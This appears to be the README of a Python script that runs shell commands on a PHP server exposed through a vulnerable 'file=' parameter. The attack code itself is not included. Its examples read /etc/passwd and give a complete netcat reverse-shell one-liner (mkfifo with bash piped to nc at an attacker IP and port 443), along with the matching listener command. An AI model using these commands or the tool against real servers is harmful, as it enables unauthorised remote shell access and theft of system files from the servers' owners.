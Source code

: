 Description
This python script allows you to execute linux commands on a vulnerable php server. It works on urls susceptible to php traversal attack with something like: 
# "http://www.example.com/site/index.php?file="
By adding linux commands like: whoami, ls, cat /etc/passwd etc to "file=", response is displayed from the server on the page. 
# eg. "http://www.example.com/site/index.php?file=whoami"
# -> www-server

In the MakeRequest() function, the
# data = {
#        'file': command
#    } 
command is the command user wants to execute on the target. 

Example:
# python3 remote_command.py <target IP> "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attacker's IP(10.0.2.3)> <attacker's port(443)> >/tmp/f"

Netcat should be listening on the attacker's end like: 
# nc -nvlp 443

Requirement
# pip install requests

Usage
# python3 remote_command.py [host] [command]
